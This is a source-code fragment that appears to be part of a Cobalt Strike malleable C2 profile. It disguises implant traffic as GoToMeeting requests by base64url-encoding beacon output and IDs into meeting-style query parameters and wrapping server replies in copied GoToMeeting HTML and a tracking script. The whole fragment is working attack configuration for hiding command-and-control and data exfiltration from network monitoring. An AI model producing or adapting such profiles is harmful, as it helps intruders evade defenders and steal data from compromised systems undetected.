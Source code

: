 http-post {

set uri "/rest/2/meetingsznAv2eO-cg85x0JMgDhhm770fwiL6 ";

set verb "GET";

client {

        header "Host" "xyz.nl";
        header "Accept" "*/*";
        header "Accept-Language" "en";
        header "Connection" "close";

        output {
                base64url;
        parameter "includeMeetingsICoorganize";
        }


        id {
                base64url;
        parameter "includeCoorganizers";

        }
}

server {

        output {
                base64url;

        prepend "content=";
        prepend "<meta name=\"google-site-verification\"\n";
        prepend "<meta name=\"viewport\" content=\"width=device-width, initial-scale=1\">\n";
        prepend "<meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\">\n";
        prepend "<link rel=\"canonical\" href=\"https://www.gotomeeting.com/b\">\n";
        prepend "<title>Online Meeting Software with HD Video Conferencing | GoToMeeting</title>\n";
        prepend "        <meta charset=\"UTF-8\">\n";
        prepend "    <head>\n";
        prepend "<html lang=\"en\">\n";
        prepend "<!DOCTYPE html>\n";

        append "\n<meta name=\"msvalidate.01\" content=\"63E628E67E6AD849F4185FA9AA7ABACA\">\n";
        append "<script type=\"text/javascript\">\n";
        append "  var _kiq = _kiq || [];\n";
        append "  (function(){\n";
        append "    setTimeout(function(){\n";
        append "    var d = document, f = d.getElementsByTagName('script')[0], s =\n";
        append "d.createElement('script'); s.type = 'text/javascript';\n";
        append "    s.async = true; s.src = '//s3.amazonaws.com/ki.js/66992/fWl.js';\n";
        append "f.parentNode.insertBefore(s, f);\n";
        append "    }, 1);\n";
        append "})();\n";
        append "</script>\n";
        append "</body>\n";
        append "</html>\n";
                print;
        }
}
}
